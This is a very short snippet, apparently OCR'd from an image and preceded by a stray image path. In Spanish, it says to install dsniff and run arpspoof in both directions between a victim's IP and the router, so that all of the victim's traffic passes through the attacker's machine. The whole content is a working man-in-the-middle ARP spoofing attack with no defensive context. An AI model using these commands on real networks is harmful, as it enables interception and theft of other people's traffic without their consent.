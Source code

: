 apt-get install dsniff

Hacemos arpspoof para que todo el tráfico pase por mi pc
arpspoof -i eth0 -t ip.de.la.victima ip.del.router
arpspoof -i eth0 -t ip.del.router ip.de.la.victima

